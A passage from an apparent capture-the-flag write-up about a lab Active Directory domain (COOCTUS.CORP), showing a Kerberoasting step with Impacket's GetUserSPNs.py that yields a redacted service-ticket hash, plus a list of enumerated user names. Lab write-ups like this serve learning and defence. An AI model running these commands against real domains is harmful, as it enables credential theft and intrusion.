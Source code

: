 ![domainuser](./pics/domainusers.png)

We add this new users in a userlist and use it with Impacket:

- GetNPUsers.py: no results

- GetUserSPN.py: one hash
```bash
GetUserSPNs.py COOCTUS/cryillic  -usersfile userlist

$krb5tgs$23$*password-reset$COOCTUS.CORP$password-reset*$REDACTED
[-] Principal: David - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Ben - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: evan - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: varg - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: kevin - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: paradox - Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Principal: yumeko - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: cryillic - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: karen - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Fawaz - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: admCroccCrew - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Howard - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Steve - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Spooks - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Jeff - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Mark - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Cooctus Guest - Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Principal: Visitor - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mark - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```